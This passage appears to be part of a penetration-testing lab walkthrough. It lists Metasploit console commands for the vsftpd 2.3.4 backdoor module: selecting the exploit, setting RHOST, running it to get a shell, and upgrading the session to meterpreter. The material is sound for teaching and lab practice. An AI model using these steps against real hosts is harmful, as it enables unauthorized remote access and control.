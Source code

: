 `use exploit/unix/ftp/vsftpd_234_backdoor`

`options` to see the different options for this exploit
<img src=h2.14.png alt=img>

`help` to get some help with the commands

`set RHOST` to set the remote host target
<img src=h2.15.png alt=img>

`run` exploit and gaining shell access
<img src=h2.16.png alt=img>
You can then go back by making the session a background session with `Ctrl + Z`

## h. upgrading session to meterpreter in msf
`sessions -l` to list the available sessions in msf
`sessions -u <id>` to upgrade session to meterpreter

